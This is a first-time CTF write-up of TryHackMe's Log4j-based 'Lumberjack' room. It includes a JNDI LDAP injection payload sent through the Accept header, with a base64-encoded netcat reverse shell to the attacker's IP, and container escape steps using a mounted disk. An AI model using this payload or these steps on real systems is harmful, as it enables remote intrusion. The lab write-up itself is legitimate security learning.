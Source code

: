 ```yaml
---
title: LumberJack-writeup-THM
date: '2022-01-18 15:23:05 +0200'
categories:
  -Log4j
tags: THM Log4j
published: true
---
```



## Status

 Hello everyone this is my first ctf writeup. Name of the box is Lumberjack from tryhackme, it’s based on Log4j (CVE-2021-44228) it is a medium level challenge.

Created by : SilverStr

Let’s start with basic recons

Recon:

nmap -sC -sV -Pn 10.10.120.161

![image](https://i.imgur.com/kkQdBV9.png)

Results from nmap showed 2 open ports

In ssh there is nothing to see so went to check up the http port 80.

\--------------------------------------------------------------------------------------------------------------------------------------
## lets go
![image](https://i.imgur.com/znguXwU.png)

Nothing to see in this port. After that I used burp to capture the request of this site.

![image](https://i.imgur.com/VeMZtpN.png) 

They give a resource to refer the log4j vulnerability. 

![image](https://i.imgur.com/uhrIwin.png)

**References used to make this room:**

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- Malicious LDAP servers are fun. (Come on.... work for it a bit)

I send the request to repeater and I used basic payload of log4j to manipulate the request via the user agent but I didn’t get any proper response. 

![image](https://i.imgur.com/qjM9aJH.png)

I saw the accept “request header” in burp .so, I decided to send the payload via the accept header.

![image](https://i.imgur.com/Jnj3lL2.png)

I got the proper response via this accept header.

Let’s try to get shell using JNDIexploit...

Java -jar JNDIExlpoit-1.2-SNAPSHOT.jar -u

![image](https://i.imgur.com/uREj2Bv.png)

I used this payload for the reverse shell via nc.

Let’s set the exploit:

![image](https://i.imgur.com/GrsdUPz.png)

Reverse shell payload to base 64.

${jndi:ldap://10.8.19.239:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjguMTkuMjM5IDQ0NDQgPi90bXAvZg==}


![image](https://i.imgur.com/Cg2XA34.png)

I send the payload via the accept header. 

![image](https://i.imgur.com/37NrKQu.png)

Finally, I got the shell. Let’s find the 1st flag;

![image](https://i.imgur.com/ibUyBtP.png)

It’s a docker environment... I go to the opt directory for flag’s 


![image](https://i.imgur.com/lM2qnBa.png)



I got the 1st flag …

cat .flag1 

Let’s check for 2nd flag, after long time I decide to use linpease to know vulnerabilities.

I will set the python server to get the linpeas from my machine to that vuln machine.

![image](https://i.imgur.com/898sjck.png)

Let’s give the execute permission to the linpeas chmod +x linpeas.sh and run the linpeas

I saw the suid unmount in the bin directory..

![image](https://i.imgur.com/ZIYlfIi.png)

Let’s see what is in dev directory, I found some directories which is unmounted on disk.

![image](https://i.imgur.com/Ux2QzX9.png)  

Make the empty directory in the tmp directory ‘123’ to mount it. 

![image](https://i.imgur.com/44fEVXe.png)

After that I will go to the root directory which is on mounted folder ‘123’

![image](https://i.imgur.com/CWwj8DS.png)






On the root directory I saw the root.txt, but here I got depressed. 

![image](https://i.imgur.com/44YLZZF.png) 

After few moments I saw the directory which is ‘…’ 

cd …;ls -la

cat .\_fLaG2

![image](https://i.imgur.com/cyDyJ8y.png)

At last, I found the final flag. A wonderful medium level ctf to know what is log4j and how its working





`                          `……….….…………….Happy learning & Hunting ………………………




